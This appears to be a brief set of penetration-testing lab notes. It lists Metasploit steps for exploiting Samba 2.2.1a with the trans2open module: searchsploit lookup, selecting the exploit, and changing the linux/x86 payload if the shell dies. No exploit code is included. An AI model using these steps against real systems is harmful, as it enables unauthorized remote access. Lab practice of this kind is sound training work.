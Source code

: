 Revisit searchsploit response from Recon stage

	Searchsploit samba 2.2.1a

Open MSFconsole

search exploit (trans2open)

use exploit

If shell dies, view options and choose new payload.

	set payload linux/x86/
	double tap TAB to show options